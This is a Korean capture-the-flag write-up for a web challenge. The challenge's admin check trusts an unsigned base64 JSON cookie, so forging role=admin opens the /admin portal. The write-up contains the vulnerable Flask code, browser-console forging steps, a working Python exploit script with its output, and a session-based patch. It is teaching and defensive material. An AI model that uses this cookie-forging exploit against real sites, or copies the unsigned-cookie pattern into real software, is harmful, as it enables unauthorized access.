






# easy-02 — 심사위원 포털 (쿠키 위조 BAC) 풀이

## 1. 문제 개요

| 항목 | 내용 |
|---|---|
| 분류 | Web / 접근 제어 — 위조 가능한 인증 쿠키(Broken Access Control) |
| 난이도 | Easy |
| 접속 | `http://<출제조IP>:8002` |
| 시작 | 회원가입으로 계정 생성 (일반 신청자) |
| 플래그 형식 | `GlassHouse{...}` (`app.config["FLAG_PORTAL"]`, 운영진 포털에 표시) |

최종 목표: 일반 신청자 계정으로, 운영진만 들어가는 포털(`/admin`)에 진입해 내부 인증 코드(플래그)를 읽는다. 운영진 여부를 판별하는 쿠키가 서명 없이 평문으로 역할을 담고 있어 그대로 위조한다.



최종 경로: 인증 쿠키가 서명 없는 base64 JSON → `role` 을 admin 으로 위조 → `/admin` 진입.

---

## 2. 의도한 풀이 과정 (요약)

1. 일반 계정으로 로그인하면 `gh_8002_auth` 쿠키가 발급된다. base64 로 디코드하면 `{"user":..., "role":"applicant"}` 평문이 나온다. → "역할이 쿠키에 그대로 들어 있고, 서명이 없다"를 확인한다.
2. `/admin` 접근 판별이 이 쿠키의 `role` 값만 본다는 걸 소스에서 확인한다(세션이 아님).
3. 쿠키의 `role` 을 `admin` 으로 바꿔 직접 위조(base64 재인코딩)한다.
4. 위조 쿠키로 `/admin` 에 들어가 플래그를 읽는다.

각 단계의 "왜/무엇을 확인했는지"는 3~4절에서 코드와 함께 설명한다.

---

## 3. 초기 분석과 단서

### 3-1. 인증 쿠키가 평문이다
로그인 후 F12 → Application → Cookies 에 `gh_8002_auth` 가 있다. 값이 base64 처럼 보여 디코드하면:
```
eyJ1c2VyIjogMTAwLCAicm9sZSI6ICJhcHBsaWNhbnQifQ==
 → {"user": 100, "role": "applicant"}
```
→ 역할(role)이 쿠키 안에 평문으로 들어 있고, HMAC 같은 서명 꼬리표가 없다. "이 값을 내가 바꿔도 서버가 모른다?" 라는 의심.



### 3-2. /admin 은 세션이 아니라 이 쿠키를 본다
`/admin` 이 막혀 있는데(일반 계정 접근 시 거부), 그 판별이 세션이 아니라 `gh_8002_auth` 쿠키의 role 을 읽는 구조임을 소스에서 확인한다(4절). → "쿠키만 바꾸면 통과한다."



---

## 4. 취약점의 원인과 성립 조건

코드 위치: `routes/admin.py` 의 `require_admin()` + `routes/auth.py` 의 쿠키 생성
```python
# auth.py — 쿠키를 '서명 없이' base64 JSON 으로 만든다
def make_auth_cookie(user):
    info = {"user": user["id"], "role": user["role"]}
    return base64.b64encode(json.dumps(info).encode()).decode()   # ← 서명/암호화 없음

# admin.py — 그 쿠키의 role 만 보고 통과시킨다
def require_admin():
    raw = request.cookies.get("gh_8002_auth")
    if not raw:
        return redirect(url_for("auth.login"))
    info = json.loads(base64.b64decode(raw).decode())   # 아무나 만들 수 있는 값
    if info.get("role") != "admin":                     # role 만 확인
        abort(403)
    return None
```
- 원인: 인증 쿠키가 서명·암호화 없는 base64 JSON 이다. base64 는 인코딩일 뿐 보호 수단이 아니므로, 공격자가 `{"role":"admin"}` 을 똑같이 만들어 넣으면 서버는 진짜와 구분하지 못한다. 권한 판별을 "클라이언트가 조작 가능한 값"에 의존한 것이 핵심 결함(Broken Access Control).
- 성립 조건: `gh_8002_auth` 쿠키에 `role=admin` 이 담긴 base64 JSON 을 넣고 `/admin` 요청. (로그인 세션조차 필요 없음 — `require_admin` 은 쿠키만 본다.)



---

## 5. 풀이 결과

### 5-1. 위조값 만들기 (F12 Console — atob 디코드 → btoa 인코드)
쿠키에 서명이 없으니, 그대로 디코드 → role 수정 → 재인코드하면 끝이다. 외부 도구 없이 브라우저 콘솔만으로:
```js
// 1) 현재 쿠키 디코드 — role 확인
atob("eyJ1c2VyIjogMTAwLCAicm9sZSI6ICJhcHBsaWNhbnQifQ==")
//  → '{"user": 100, "role": "applicant"}'

// 2) role 만 admin 으로 바꿔 다시 base64 인코드
btoa('{"user": 100, "role": "admin"}')
//  → 'eyJ1c2VyIjogMTAwLCAicm9sZSI6ICJhZG1pbiJ9'   ← 위조값
```
`atob` = base64 디코드, `btoa` = base64 인코드 (둘 다 브라우저 내장). user 번호는 무관하다 — 서버는 role 만 보기 때문.



### 5-2. 쿠키 교체 → 포털 진입
Application → Cookies 에서 `gh_8002_auth` 값을 위 위조값으로 교체한 뒤 `/admin` 재접속.



### 5-3. 성공 판별 기준 / 결과
1. 1) 의 디코드 결과가 `"role": "applicant"`.
2. 위조 쿠키(`"role": "admin"`)로 교체 후 `/admin` 이 200 으로 열린다.
3. 포털 화면에 `내부 인증 코드 GlassHouse{...}` 가 보인다.
```
위조 쿠키: eyJ1c2VyIjogMTAwLCAicm9sZSI6ICJhZG1pbiJ9   (= {"user":100,"role":"admin"})
GET /admin -> 200
  <div class="alert alert-info">운영진 전용 · 내부 인증 코드 GlassHouse{...}</div>
```


플래그: `GlassHouse{...}`
> 실제 값은 배포본 `.env` 의 `FLAG_PORTAL`(변수명 변경 시 해당 이름)을 따른다.

---

## 6. 패치 방안과 검증

### 패치 — 권한을 "조작 불가능한" 곳에서 판별
가장 단순한 방법은 서버 세션을 신뢰하는 것이다. 역할을 클라이언트 쿠키에 평문으로 두지 않는다.
```python
def require_admin():
    if session.get("role") != "admin":   # 서버 측 세션에서 판별
        abort(403)
    return None
```
- 굳이 쿠키에 상태를 담아야 하면 HMAC 서명을 붙이고, 서버가 서명을 검증한 뒤에만 신뢰한다(서명 키는 노출 금지).
- 원칙: 권한 판별 값은 클라이언트가 수정할 수 없어야 한다. base64 는 보호가 아니다.

### 검증 방법
- (음성) 패치 후 `gh_8002_auth` 를 `role=admin` 으로 위조해도 `/admin` → 403(세션 role 은 applicant).
- (양성) 실제 운영진 로그인 시 `/admin` 정상 진입.

---

## 7. 익스플로잇 코드

```python
#!/usr/bin/env python3
# easy-02 (심사위원 포털 / 쿠키 위조 BAC) - role=admin 쿠키 위조로 /admin 진입
# 사용: python3 exploit.py http://<IP>:8002
import re, sys, base64, json, requests

BASE = sys.argv[1].rstrip("/") if len(sys.argv) > 1 else "http://127.0.0.1:8002"

# 서명 없는 base64 JSON 쿠키를 그대로 위조
forged = base64.b64encode(json.dumps({"user": 1, "role": "admin"}).encode()).decode()
print(f"[*] forged gh_8002_auth = {forged}")

# 위조 쿠키만으로 /admin (로그인 세션조차 불필요)
r = requests.get(f"{BASE}/admin", cookies={"gh_8002_auth": forged})
m = re.search(r"GlassHouse\{[^}]*\}", r.text)
print(f"[+] FLAG: {m.group(0)}" if m else "[-] 실패")
```

실행 예시
```bash
$ python3 exploit.py http://127.0.0.1:8002
[*] forged gh_8002_auth = eyJ1c2VyIjogMSwgInJvbGUiOiAiYWRtaW4ifQ==
[+] FLAG: GlassHouse{...}
```
> 브라우저로 할 때: 로그인 후 F12 → Application → Cookies → `gh_8002_auth` 값을 위 위조값으로 교체 → `/admin` 접속.

---

## 부록 — 전체 경로 한 줄 요약
```
로그인 → gh_8002_auth 쿠키 디코드 = {"role":"applicant"} (서명 없는 base64 JSON 확인)
  → require_admin 이 쿠키 role 만 신뢰함을 확인
  → {"user":1,"role":"admin"} 를 base64 로 위조해 쿠키 교체
  → GET /admin (require_admin 통과) → 운영진 포털의 GlassHouse{...} 유출
```

